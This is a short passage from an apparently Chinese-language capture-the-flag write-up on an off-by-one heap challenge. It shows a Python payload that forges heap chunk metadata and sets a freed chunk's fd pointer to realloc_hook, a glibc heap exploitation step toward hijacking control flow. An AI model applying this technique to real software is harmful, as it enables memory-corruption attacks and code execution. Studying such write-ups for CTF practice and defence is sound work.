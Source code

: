 ![32](/chunk_offbyone/32.png)



以下是为了保护内存，并把realloc_hook写到那个堆块的fd处。

```python
heap_base = 0x555555758000

payload = p64(heap_base+0x70) 
payload += p64(0x18)
payload += p64(heap_base+0x50)
payload += p64(0)*2
payload += p64(heap_base+0x250)
payload += p64(0)+p64(0x41)
payload += p64(heap_base+0x3e0)
payload += p64(0x88)
payload += p64(heap_base+0xb0)
payload += p64(0)*2
payload += p64(heap_base+0x250)
payload += p64(0)*5+p64(0x71)
payload += p64(realloc)
PUT("b"*0x8, 0xa8, payload) #会先从58130开始分配。在前面我们尽量保持所有内容不变。
```



此时，0x581d0的fd指针指向了realloc_hook，
